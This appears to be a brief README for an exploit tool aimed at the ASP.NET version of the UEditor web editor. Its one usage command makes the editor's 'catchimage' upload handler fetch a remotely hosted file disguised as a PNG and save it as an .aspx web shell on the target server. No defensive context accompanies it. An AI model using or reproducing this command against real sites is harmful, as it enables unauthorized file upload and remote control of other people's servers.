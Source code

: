 # UEditor
UEditor-ASP.NET版本文件上传利用
python ueditor.py -u <url http://xxx.com/ueditor/net/controller.ashx?action=catchimage> -shell <shell path http://xxx.com/1.png?.aspx>
